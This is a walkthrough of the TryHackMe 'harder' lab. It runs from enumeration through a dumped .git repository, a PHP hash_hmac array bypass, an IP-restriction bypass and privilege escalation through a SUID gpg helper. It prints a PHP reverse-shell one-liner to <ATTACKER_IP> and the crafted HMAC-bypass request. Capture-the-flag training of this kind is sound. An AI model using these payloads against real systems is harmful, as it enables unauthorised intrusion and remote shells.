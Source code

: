 # TryHackMe - harder

## Enumeration

I start with a regular nmap scan to see which ports are open to us.

`nmap -sS -sV -Pn <IP>`

![Screenshot0](./screenshots/screenshot0.png)

We can see two open ssh services and a webserver on port 80.
I started to enumerate the webserver using FFUF and came across a `phpinfo.php` file which gives us information about the installed PHP version and more.

However, this did not help me at the point and I looked at the website using Burp further.
Here I found a domain and subdomain.

![Screenshot1](./screenshots/screenshot1.png)

So I entered the domain in the `/etc/hosts` file and started to enumerate again with FFUF.
We see a page with a login to **Harder Corp. - Password Manager**.

![Screenshot2](./screenshots/screenshot2.png)

I tried to manually exploit the login first with SQLi but FFUF gave me some interesting results which I concentrated on.

```
ffuf -w <WORDLIST> -u http://pwd.harder.local/FUZZ -ic

50x.html                [Status: 200, Size: 494, Words: 74, Lines: 22, Duration: 95ms]
auth.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 153ms]
.git                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 232ms]	
.gitignore              [Status: 200, Size: 27, Words: 1, Lines: 3, Duration: 154ms]
index.php               [Status: 200, Size: 19926, Words: 526, Lines: 24, Duration: 983ms]
secret.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 725ms]
```

Interesting, we can see that there is still a git repository here.
Let's take a closer look at this.
With the tool [GitTools](https://github.com/internetwache/GitTools) I downloaded the .git repository and could look at the commits.

`./gitdumper.sh http://pwd.harder.local/.git/ ./dumped/`

![Screenshot3](./screenshots/screenshot3.png)

Let's see what commits are there.

`git log --all`

![screenshot4](./screenshots/screenshot4.png)

With the `extractor.sh` of the `GitTools` you can easily extract all files from the repository from all commits.

![Screenshot5](./screenshots/screenshot5.png)

So, let's start to have a closer look at the code.

In the file `auth.php` we find the simple credentials `admin:admin` to the web-password manager.
When we log in we only see a message *extra security in place. our source code will be reviewed soon ...* .

OK, so the trick must be somewhere else.
I inspected the source code and the git-repository.
The gap was in the file `hmac.php`.

```php
cat auth.php

<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

We can interact with three GET parameters here:
`n`,`h` and `host`.
While searching if it is somehow possible to bypass the `hash_hmac` function I found the following post:
https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up .

So if we call `hmac.php?n[]=a&host=test&h=43b0cef99265f9e34c10ea9d3501926d27b39f57c6d674561d8ba236e7a819fb` we see that we have successfully bypassed the *extra security check* because we don't get a fail message anymore.
We pass the parameters with the values to `index.php` and we can see an entry in the web password manager.

![Screenshot6](./screenshots/screenshot6.png)

We are shown a new subdomain `shell.harder.local` and credentials.
We enter the new subdomain in `/etc/hosts` and navigate to the page.
We see again a login that looks like the previous one but behind it is probably the **Harder Corp. - Web Shell**.

![Screenshot7](./screenshots/screenshot7.png)

We enter the credentials from before and immediately see that we are dealing with an IP restriction and so cannot easily access it.

**"Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed."**

The IP restriction is quickly bypassed with the Burp extension.
How to use the extension you can read here:
https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c

If we have set the plugin correctly and set an IP like `10.10.10.10`, we get to the web-shell and a small test confirms that we can issue system commands here.

![Screenshot8](./screenshots/screenshot8.png)

We open a netcat on our attacker machine `nc -nlvp 9876` and try some reverse shells.
I used the following reverse shell:
`php -r '$sock=fsockopen("<ATTACKER_IP>",9876);exec("sh <&3 >&3 2>&3");'`

And there it is,our reverse shell!

![Screenshot9](./screenshots/screenshot9.png)

## Privelege Escalation #1

Well, now to the Privelege escalation!
The Privelege Escalations were done quite fast in contrast to the web-part.
I first started to enumerate the system manually but `linpeas.sh` quickly showed me what we were looking for.
The file `/etc/periodic/15min/evs-backup.sh` contains the password for the user `evs`.

```bash
/www/shell $ cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "<REDACTED>"
```
We connect as user `evs` via SSH and get the first flag.

![Screenshot10](./screenshots/screenshot10.png)

## Privelege Escalation #2
A search for SUID binaries returned an interesting result.

```bash
find / -perm /4000 2>>/dev/null
/usr/local/bin/execute-crypted
```

In the same directory is a shell script:

```bash
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

Using `linpeas.sh` I found another file `/var/backup/root@harder.local.pub` which we need in a moment.

The solution was to import the public key from root, encrypt a file with our command for root and execute it with the `execute-crypted` binary as root.

![Screenshot11](./screenshots/screenshot11.png)

